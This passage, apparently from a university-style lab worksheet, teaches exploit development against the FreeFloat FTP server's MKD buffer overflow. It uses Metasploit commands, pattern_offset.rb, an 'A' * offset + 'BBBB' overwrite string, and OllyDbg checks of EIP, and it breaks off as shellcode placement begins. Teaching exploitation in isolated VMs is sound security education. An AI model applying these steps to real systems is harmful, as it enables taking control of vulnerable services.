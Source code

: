 ==action: Restart msfconsole (or run reload_all), and launch your updated exploit:==

```bash
msf > reload_all
```

```bash
msf > use exploit/windows/ftp/FreeFloatMKDoverflow
```

```bash
msf (FreeFloatMKDoverflow) > exploit
```

==VM: On the Windows 7 VM (victim/debugger)==

==action: Note the new EIP address error==.

![][image-11]
*OllyDbg access violation shown in the status bar*

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Run the new EIP value through MSF's pattern_offset tool:==

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q ==edit:EIP-value== -l 500
```

==action: Record the EIP offset you have calculated==.

> Note: So you now know the offset: the number of bytes from the start of the input, to the part of the input that overwrites EIP.

==action: Confirm this by updating your bad variable in the exploit code, so that it starts with "A" * offset, then four Bs, then lots of Cs==.

> Hint: `bad = "A" * ==edit:offset== + "BBBB" + "C" * 30`

==VM: On the Windows 7 VM (victim/debugger)==

==action: Restart your debugging==.

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Reload MSF modules, and rerun your exploit module==.

==VM: On the Windows 7 VM (victim/debugger)==

If you have correctly overwritten exactly the EIP you will have written the value 0x42424242 (since 0x42 is hex for ASCII 66, which represents a B).

![][image-12]
*OllyDbg access violation shown in the status bar*

## Adding shellcode {#adding-shellcode}

Now that you can control execution of the vulnerable service, you need to decide where to put the shellcode/payload. You could either place the shellcode before or after the set of Bs representing your control of EIP, since you control both areas of input.


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-14.png